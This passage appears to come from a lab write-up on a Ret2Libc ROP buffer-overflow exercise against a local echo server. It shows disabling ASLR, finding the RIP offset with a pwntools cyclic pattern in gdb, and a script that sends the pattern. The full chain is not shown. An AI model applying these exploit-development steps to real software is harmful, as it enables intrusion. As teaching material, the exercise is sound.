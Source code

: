 



Part 2: ROP Buffer Overflow on tcpserver-nonexecstack
Objective
Exploit a buffer overflow in tcpserver-nonexecstack, a 64-bit non-networked echo server with a non-executable stack, to execute system("/bin/sh") using a Ret2Libc ROP chain.
Setup

Disable ASLR: Same as Part 1.
Verify Binary:file tcpserver-nonexecstack


Output: ELF 64-bit LSB pie executable, x86-64, dynamically linked, ...
Purpose: Confirms 64-bit binary with NX stack, requiring ROP.



Steps
1. Find the Offset to RIP
Determine the offset to overwrite RIP using a cyclic pattern.
Commands:
gdb ./tcpserver-nonexecstack
(gdb) run
# In another terminal:
python3 -c 'from pwn import cyclic; print(cyclic(1000, alphabet=b"ABCD").decode() + "\n")' | ./tcpserver-nonexecstack
# In GDB, after crash:
(gdb) info registers rip

Install pwntools (On Fedora):
pip install pwntools

Details:

Sent a 1000-byte pattern with non-numeric characters (ABCD) to avoid parsing issues.
Error Encountered: Initial crash in strtol_l:Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7de1ceb in __GI_____strtol_l_internal ...


Cause: The program attempted to parse the pattern (Aa0Aa1...) as a number, causing a null pointer dereference.
Resolution: Used non-numeric pattern and increased size to 2000 bytes:# File: send_pattern_part2.py
import subprocess
from pwn import cyclic

pattern = cyclic(2000, alphabet=b"ABCD")
with open("payload.bin", "wb") as f:
    f.write(pattern + b"\n")
subprocess.run(["./tcpserver-nonexecstack"], input=pattern + b"\n", stdout=subprocess.PIPE, stderr=subprocess.PIPE)

python3 send_pattern_part2.py

